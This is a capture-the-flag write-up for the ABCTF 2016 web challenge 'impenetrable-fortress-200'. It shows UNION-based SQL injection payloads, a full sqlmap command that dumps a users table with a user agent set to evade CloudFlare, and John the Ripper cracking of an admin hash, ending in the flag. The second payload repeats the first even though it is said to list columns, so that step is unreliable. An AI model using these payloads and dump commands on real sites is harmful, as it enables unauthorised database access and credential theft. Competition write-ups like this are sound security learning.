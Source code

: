 # ABCTF 2016 : impenetrable-fortress-200

**Category:** Web
**Points:** 200
**Solves:** 14
**Description:**

Some times an application is secure and you have to find another way around. Log in with admin credentials and you will receive a flag. Try it [here](http://yrmyzscnvh.abctf.xyz/lastweb/)!

## Write-up

We are presented a website where a username & password prompt is located. The first thought is to try injecting the username parameter, which turns out to be unsuccessful.

After looking at the hint (find the other way around) I looked at the other web challenges present - the title matches with web4, thus I tried my luck there.

Let's enumerate tables first -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #`, getting the tables `webfour` and `users`. The last table is our goldmine, as we can obtain our username / pw combo there.

Let's enumerate columns in `users` table -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #` discovering the column names are `username` and `hashedpassword`.

I could not select the columns from the database (nothing showed on the website) so I used SQLmap to dump the db -> `python sqlmap.py -u "http://yrmyzscnvh.abctf.xyz/web4/" --data "input=1" --random-agent --user-agent='' --dump -D webnine -T users`.  (used random user agent to get rid of CloudFlare)

The dump contains 3 entries:


| username           | hashedpassword                         |
|--------------------|----------------------------------------|
| admin              | 758e04774a12864b5b707dddc131d91d       |
| IntelAgent is cool | PM me this code for nothing: jowlprowl |
| jowls              | jowls                                  |

Using JtR (John the Ripper) with rockyou wordlist we discover that the hash corresponds to `cardoor`.

After logging in we see the flag: `abctf{th3_l4st_0n3_1s_th3_b3st_0n3}`

## Other write-ups and resources

* [0x90r00t](https://0x90r00t.com/2016/07/24/abctf-2016-se-and-xss-the-art-of-phishing-and-trolling/)
